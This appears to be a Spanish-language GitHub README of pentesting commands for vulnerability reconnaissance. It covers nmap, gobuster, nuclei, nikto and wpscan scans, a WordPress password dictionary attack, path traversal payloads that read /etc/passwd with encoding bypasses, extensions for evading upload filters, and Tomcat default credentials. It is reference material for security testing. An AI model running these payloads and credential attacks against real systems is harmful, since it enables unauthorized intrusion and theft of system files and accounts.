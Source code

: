 
Mi repositorio sobre herramientas y configuraciones para la fase de reconocimiento de vulnerabilidades.


# Herramientas de escaneo
## Nmap
```shell
- nmap -sn <ip/24>
- nmap -sV -sT -O -p- <ip>
- nmap -sTCV <ip>
- nmap --script vuln <ip>
- nmap -f -sS -sV -Pn --script auth <ip>
- nmap -f -sS -sV -Pn --script default <ip>
```
#### Puertos UDP
```shell
- nmap -sU -sC --top-ports 100 <ip>
```
## Gobuster
```shell
- gobuster dir -u <url> -w /home/kali/Downloads/seclist/directory-list-lowercase-2.3-medium.txt -x php,html,txt
```
#### Realizar fuzzing
```shell
- gobuster fuzz -u https://example.com?FUZZ=test -w parameter-names.txt
```
## Nuclei
#### Escaneo de un solo objetivo
```shell
- nuclei -target https://example.com
```
#### Escaneo de varios objetivos
```shell
- nuclei -targets urls.txt
```
#### Network scan
```shell
- nuclei -target <ip>/24 
```
## Nikto
```shell
- nikto -h example.com
- nikto -h example.com -port 8083
- nikto -h example.com -maxtime number.of.seconds
```
## Wpscan
```shell
- wpscan --url <url>
```
### Ataque de diccionario
```shell
- wpscan --url <url> --passwords <ruta de diccionarios>
```
### Enumerar usuarios
```shell
- wpscan --url <url> --enumerate u 
```

# Path Traversal 
```shell
- file=../../../../../../../etc/passwd
- file=/etc/passwd
- file=....//....//....//etc/passwd
- file=..%252f..%252f..%252fetc/passwd
- file=/var/www/images/../../../etc/passwd
- file=../../../etc/passwd%00.png 
```

# Upload extensions

```shell
- PHP: .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module
- Working in PHPv8: .php, .php4, .php5, .phtml, .module, .inc, .hphp, .ctp
- ASP: .asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml
- Jsp: .jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .action
- Coldfusion: .cfm, .cfml, .cfc, .dbm
- Flash: .swf
- Perl: .pl, .cgi
- Erlang Yaws Web Server: .yaws
```
# Tomcat default credentials

```shell
admin:admin

tomcat:tomcat

admin:

admin:s3cr3t

tomcat:s3cr3t

admin:tomcat
```
